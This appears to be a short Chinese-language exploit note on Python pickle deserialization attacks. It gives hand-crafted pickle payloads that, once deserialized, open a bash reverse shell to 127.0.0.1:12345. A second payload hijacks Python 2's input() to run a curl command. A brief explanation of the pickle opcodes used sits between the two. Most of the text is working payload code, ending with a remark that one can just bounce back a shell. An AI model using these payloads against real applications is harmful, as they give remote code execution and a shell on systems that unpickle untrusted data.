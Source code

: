 ```

```


```
import base64
import marshal

def foo():
    import os
    os.system('bash -c "bash -i >& /dev/tcp/127.0.0.1/12345 0<&1 2>&1"')

payload="""cnew
function
(cmarshal
loads
(cbase64
b64decode
(S'%s'
tRtRc__builtin__
globals
(tRS''
tR(tR."""%base64.b64encode(marshal.dumps(foo.func_code))

pickle.loads(payload)

payload="""cnew
function
(cmarshal
loads
(S'%s'
tRc__builtin__
globals
(tRS''
tR(tR."""%marshal.dumps(foo.func_code).encode('string-escape')

pickle.loads(payload)

```

    c：读取新的一行作为模块名module，读取下一行作为对象名object，然后将module.object压入到堆栈中。
    (：将一个标记对象插入到堆栈中。为了实现我们的目的，该指令会与t搭配使用，以产生一个元组。
    t：从堆栈中弹出对象，直到一个“(”被弹出，并创建一个包含弹出对象（除了“(”）的元组对象，并且这些对象的顺序必须跟它们压入堆栈时的顺序一致。然后，该元组被压入到堆栈中。
    S：读取引号中的字符串直到换行符处，然后将它压入堆栈。
    R：将一个元组和一个可调用对象弹出堆栈，然后以该元组作为参数调用该可调用的对象，最后将结果压入到堆栈中。
    .：结束pickle。

适用于python2 的input方法

```
c__builtin__
setattr
(c__builtin__
__import__
(S'sys'
tRS'stdin'
cStringIO
StringIO
(S'__import__('os').system(\'curl 127.0.0.1:12345\')'
tRtRc__builtin__
input
(S'input: '
tR.
直接反弹shell就行了
```